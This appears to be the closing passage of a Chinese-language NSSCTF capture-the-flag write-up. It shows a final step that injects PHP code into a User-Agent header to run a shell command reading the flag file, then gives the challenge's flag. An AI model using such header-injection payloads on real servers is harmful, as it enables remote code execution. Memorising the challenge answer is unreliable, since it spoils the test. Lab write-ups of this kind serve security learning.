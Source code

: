 5. 最后我们直接访问flag文件，得到flag

```php
User-Agent: <?php system('cat /ffflllaaaggg'); ?>
```

![alt text](images/image-18.png)

#### 答案

`NSSCTF{0ac65b24-348e-49dc-bda0-a0d5949fba22}`